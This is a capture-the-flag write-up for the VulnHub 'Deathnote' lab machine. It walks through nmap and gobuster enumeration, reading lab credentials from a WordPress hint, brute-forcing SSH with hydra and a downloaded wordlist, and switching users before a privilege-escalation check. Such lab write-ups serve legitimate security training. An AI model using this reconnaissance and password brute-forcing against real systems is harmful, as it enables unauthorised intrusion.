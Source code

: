 
# DEATHNOTE
#### Download the machine from vulnhub or go for the [link](https://download.vulnhub.com/deathnote/Deathnote.ova).
![deathnote vulnhub](https://user-images.githubusercontent.com/112984045/201843771-c3f68b39-9b6e-4df4-9eef-0d90fa1c8445.png)<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### ` After a successful setup go for the commands :`

## ENUMERATION :

```bash
netdiscover -i < interface >
```
![deathnote netdiscover](https://user-images.githubusercontent.com/112984045/201920948-904f4e4d-0ac8-42ac-bf79-49646b91c2f3.png)<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 -v < IP >
```
![deathnote nmap](https://user-images.githubusercontent.com/112984045/201921950-90d2d0a7-9879-4919-b4eb-397ba12743df.png)<br>
 ~ we can add -v argument for more verbose output.
 
  * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![deathnote portscanner](https://user-images.githubusercontent.com/112984045/201923393-7c7f0019-07c4-40cb-8f00-3ad50954bacd.png)
 ~ I prefer this tool because of its speed as you can see it just took 40 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 2
 * PORT NUMBERS : 22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 ![deathnote iponweb](https://user-images.githubusercontent.com/112984045/201925983-a0bcb8d9-91a8-4bf9-bcf1-67a0c31efb03.png)

 
 <br>
 
 * As the web-request is redirection to deathnote.vuln.. go for changing the host
 ```bash
 nano /etc/hosts
 ```
 * Add the ip and web domain<br>
 ![deathonte etchosts](https://user-images.githubusercontent.com/112984045/202195455-15b4f27b-efae-4331-8bf8-40886fcb5942.png)
<br>

```bash
 gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![deathnote gobuster](https://user-images.githubusercontent.com/112984045/202196928-a5a374e9-b12c-4146-bad0-a2b69c46696b.png)
```bash
gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirb/common.txt  -t 50
```
![deathnote gobuster common](https://user-images.githubusercontent.com/112984045/202197447-008f5b28-3b2e-41e4-85f3-cbd5325101ab.png)
<br>

* Web-request
```bash
http://< IP >/robots.txt
```
![deathnote robots](https://user-images.githubusercontent.com/112984045/202197893-4fdb3263-af51-4c5e-bb03-988b2e803244.png)<br>

`follow the lead`
```bash
http://< IP >/important.jpg
```
![deathnote importweb](https://user-images.githubusercontent.com/112984045/202199038-4d4e031e-c11d-4990-96bf-e84036559c65.png)
```bash
wget http://< IP >/important.jpg
```
![deathnote important crack](https://user-images.githubusercontent.com/112984045/202199212-ec1e495f-0b6a-46b8-84d2-0cd4a5ddc942.png)<br>
```bash
http://deathnote.vuln/wordpress/index.php/hint/
```
![deathnote hint](https://user-images.githubusercontent.com/112984045/202249653-4f9c4014-c6f3-4337-b4e1-6c547044314f.png)
![deathnote Lcomment](https://user-images.githubusercontent.com/112984045/202250763-74359e02-f4e5-482c-a7d3-f609176742d5.png)<br>

` I think i have found something else`
* PASSWORD :  iamjustic3
```bash
http://< IP >/wordpress/wp-admin
```
![deathnote adminpage](https://user-images.githubusercontent.com/112984045/202252487-37685b3e-fd85-4ef2-b1dd-e6df4387408e.png)


`It was a simple guess...`<br>
* USERNAME : Kira<br>
* PASSWORD : iamjustic3
<br>


![deathnote adminmedia](https://user-images.githubusercontent.com/112984045/202252864-f213d504-e0fb-4fba-b4af-c502a9ce51fb.png)<br>

 ![deathnote webnote](https://user-images.githubusercontent.com/112984045/202262434-46e427b8-b93f-4802-98a8-334af3e859f1.png)
 <br>
 
 ```bash
 wget < copied link >
 ```
 ![deathnote notes](https://user-images.githubusercontent.com/112984045/202262450-5038af71-b0ca-412a-a255-f30b6de2871f.png)
<br>

```bash
hydra -l l -P note.txt ssh://< IP >
```
![deathnote l](https://user-images.githubusercontent.com/112984045/202267251-08e7fc8a-d649-4b2e-bf4b-054135373a6e.png)

```bash
ssh l@< IP >
```
![deathnote ssh l](https://user-images.githubusercontent.com/112984045/202267838-6f78065c-e3b8-486c-a7dc-8975eff5c27e.png)
<br>

```bash
cat user.txt
```
![deathnote cat user](https://user-images.githubusercontent.com/112984045/202270033-a97517c9-fd6e-46e6-9ff8-3222ed3dc5a4.png)<br>

* Use the [link](https://www.tutorialspoint.com/execute_brainfk_online.php) to decode brainfuck 
![deathnote brainfuck](https://user-images.githubusercontent.com/112984045/202270063-23ed6650-9776-4fd7-985d-c946107280fe.png)

```bash
cd /opt
```
```bash
cat case.wav
```
![deathnote shell opt](https://user-images.githubusercontent.com/112984045/202354580-fb7ba709-29d3-4ba1-892d-a851f2d4e960.png)
![deathnote cyberchief](https://user-images.githubusercontent.com/112984045/202354738-14994187-1b59-44da-961f-f68431d98c91.png)

<br>

* Username : kira<br>
* Password : kiraisevil<br>

```bash
su kira
```
![deathnote su-kira](https://user-images.githubusercontent.com/112984045/202356862-d507d37a-84b9-4633-b0e0-0c77cf983cc3.png)

## PRIVILEGE ESCALATION

```bash
sudo -l
```
![deathnote root](https://user-images.githubusercontent.com/112984045/202358116-5a24d4f5-835b-4e78-ae90-dd0809dd1611.png)


<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
 
